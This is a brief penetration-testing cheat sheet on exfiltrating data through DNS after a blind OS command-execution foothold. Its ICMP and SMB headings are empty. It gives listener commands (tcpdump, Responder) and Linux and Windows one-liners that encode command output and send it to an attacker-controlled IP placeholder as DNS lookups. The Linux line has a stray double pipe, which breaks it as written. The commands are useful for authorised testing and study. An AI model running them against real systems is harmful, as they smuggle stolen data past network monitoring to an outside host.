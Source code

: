 # General - Data exfiltration

The following note details the technics and tools that can be used to exfiltrate
data through an indirect channel.

This note focus on data exfiltration through a blind OS RCE.  

### ICMP

### DNS

DNS queries can be used to exfiltrate data through the requested domain name.

```
# Listener
tcpdump -i <INTERFACE> udp port 53
# Every Responder's servers can be turned off in Responder.conf, except for the DNS service
responder -i <INTERFACE>

# Linux
<COMMAND> | | while read data; do datab64=`echo $data | base64 -w 0`; host $datab64.ex.data <IP>; done

# Windows
nslookup <%VARIABLE%> <IP>
# The DOS for loop only output the number of columns specified by the tokens parameter. 1 = %a, 2 = %b, etc.
for /f "tokens=1,2,3" %a in ('<COMMAND>') do nslookup %a.%b.%c <IP>

cmd.exe /c "for /f ""tokens=1,2,3"" %a in ('<COMMAND>') do nslookup %a.%b.%c <IP>"
```

### SMB
